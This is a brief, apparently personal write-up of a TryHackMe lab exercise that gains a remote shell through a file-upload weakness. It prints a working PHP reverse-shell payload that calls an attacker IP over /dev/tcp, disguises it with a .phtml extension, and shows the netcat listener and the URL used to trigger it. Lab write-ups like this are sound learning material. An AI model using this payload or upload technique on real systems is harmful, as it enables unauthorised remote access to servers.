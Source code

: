 # Setting up file payload file

```json
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.1.178/4444 0>&1'");
?>
```

I have saved this command in the following file: *shell.phtml*. The File Upload is working only with files with the following extension: *.phtml*.

*10.9.1.178*: The IP Address which is the one i have in the THM network.
*4444*: The port on which i will be receiving the terminal.

# Starting a listening service on my machine (Netcat)

```css
nc -lvnp 4444
```

![[Pasted image 20250813000234.png]]

# Uploading the file and executing it

I just simply select the file and then execute it by typing this in the url section: 

```css
10.10.76.39:3333/internal/uploads/shell.phtml
```

![[Pasted image 20250813000755.png]]


